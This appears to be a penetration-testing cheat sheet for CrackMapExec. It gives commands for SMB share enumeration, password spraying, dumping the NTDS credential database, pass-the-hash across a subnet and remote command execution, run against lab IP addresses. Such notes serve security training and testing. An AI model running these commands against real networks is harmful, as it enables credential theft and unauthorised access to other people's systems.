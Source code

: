```yaml
---
tags:
  - Enumeration
  - TCP
  - ServerMessageBlock
  - SMB
  - Tooling
---
```



[GitHub - byt3bl33d3r/CrackMapExec: A swiss army knife for pentesting networks](https://github.com/byt3bl33d3r/CrackMapExec)


```shell-session
crackmapexec smb 10.129.14.128 --shares -u '' -p ''
```

## Installation

```shell-session
sudo apt-get -y install crackmapexec
```

## Usage

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

> [!NOTE]
> By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found.

[web.archive.org/web/20220129050920/https://mpgn.gitbook.io/crackmapexec/getting-started/using-credentials](https://web.archive.org/web/20220129050920/https://mpgn.gitbook.io/crackmapexec/getting-started/using-credentials)
### Options

```shell-session
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT]
                    [--jitter INTERVAL] [--darrell]
                    [--verbose]
                    {mssql,smb,ssh,winrm} ...

optional arguments:
  -h, --help            show this help message and exit
  -t THREADS            set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT     max timeout in seconds of each thread (default: None)
  --jitter INTERVAL     sets a random delay between each connection (default: None)
  --darrell             give Darrell a hand
  --verbose             enable verbose output

protocols:
  available protocols

  {mssql,smb,ssh,winrm}
    mssql               own stuff using MSSQL
    smb                 own stuff using SMB
    ssh                 own stuff using SSH
    winrm               own stuff using WINRM
```


```shell-session
usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]]
                        [-k] [--aesKey] [--kdcHost] [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT]
                        [-M MODULE] [-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {http,https}]
                        [--server-host HOST] [--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce]
                        [-d DOMAIN | --local-auth] [--port {139,445}] [--share SHARE] [--gen-relay-list OUTPUT_FILE]
                        [--continue-on-success] [--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions]
                        [--disks] [--loggedon-users] [--users [USER]] [--groups [GROUP]] [--local-groups [GROUP]]
                        [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY] [--wmi-namespace NAMESPACE]
                        [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
                        [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
                        [--put-file FILE FILE] [--get-file FILE FILE]
                        [--exec-method {atexec,wmiexec,smbexec,mmcexec}] [--force-ps32] [--no-output]
                        [-x COMMAND | -X PS_COMMAND] [--obfs] [--clear-obfscripts]
                        [target ...]

positional arguments:
  target                the target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of
                        targets, NMap XML or .Nessus file(s)

optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)
```

## Extract NTDS from SMB

Using an account with admin privileges:

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

## Pass the Hash


```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command. This method is helpful if we obtain a local administrator hash by dumping the local SAM database on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. We can use the option `-x` to execute commands.